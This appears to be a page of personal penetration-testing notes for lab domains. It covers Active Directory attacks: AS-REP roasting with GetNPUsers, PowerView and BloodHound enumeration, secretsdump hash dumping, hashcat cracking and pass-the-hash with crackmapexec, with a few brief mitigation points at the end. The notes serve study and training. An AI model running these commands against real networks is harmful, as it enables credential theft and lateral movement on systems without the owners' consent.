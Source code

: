 **GetNPUsers & Kerberos Pre-Auth**
- List down the users which have Kerberos Pre-Authentication disabled.
- `python3 getnpusers.py htb.local/ -dc-ip 192.168.170.115`
- Grab the HASH of the listed users
- `python3 getnpusers.py htb.local/ dc-ip 192.168.170.115 -request`
- With authentication
- `impacket-GetNPUsers 'search.htb/user:password' -usersfile usernames.txt -dc-ip 'search.htb'`


**AD Post Compromise Enumeration**
- Domain Enumeration with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  - Powerview is a tool that allows us to look at the network and look at enumerate basically the Domain Controller, Domain Policy, Users group etc.
  - Download the powerview script from above.
  - `powershell -ep bypass`
  - Where, bypass is an execution policy and this removes the blockade of script exection.
  - Run the program `.  .\PoweView.ps1`
  - Get Domain Infomation `Get-NetDomain`
  - Get Specific Domain Controllers - `Get-NetDomainController`
  - Get Domain Policy - `Get-DomainPolicy`
  - Get Specific policy like system access - `(Get-DomainPolicy)."system access"`
  - Get the users - `Get-NetUser`
  - Get the list of users - `Get-NetUser | select cn`
  - Get Domain ADmins - `Get-NetGroup -GroupName "Domain Admins"`
  - List all the files being shared on the network - `Invoke-ShareFinder`
  - [Powerview cheatsheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- Bloodhound Overwiew and Setup
  - `sudo apt install bloodhound`
  - It runs on a tool called neo4j
  - `neo4j console` - Create a new password.
  - `bloodhound`
- Grabbing Data with Invoke-Bloodhound
  - Download the [sharphound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1) script.
  - Move the file on compromised victim PC.
  - Enable execution `powershell -ep bypass`
  - Execute the script `. .\SharpHound.ps1`
  - Run the script `Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip`
  - All the data are collected on the zip file.
  - Move the file on an attacker machine.
  - Click on the upload data and upload the zip file

**AD Post Compromise Attacks**
- Pass the Hash/Password Overview
  - If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.
  - Pass the Password : `crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`
- Dumping Hashes with [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
  - It is also a part of impacket tools
  - `secretsdump.py marvel/fcastle:Password1@192.168.57.141`
  - It dumps SAM hashes, DP API Key as well as LSA secrets
  - If there is a password reuse, the last bit of the hash will be the same
- Cracking NTLM Hashes with Hashcat
  - `hashcat -m 1000 hashes.txt wordlist.txt -O`
- Pass the Hash Attacks
  - Pass the Hash, Capture the last bit of the hash with psexec hashdump : `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local`
- Pass Attacks Mitigation
  - Hard to completely prevent, but we can make it more difficult to an attacker.
  - Limit account re-use
    - Avoid re-using local admin password
    - Disable Guest and Administrator accounts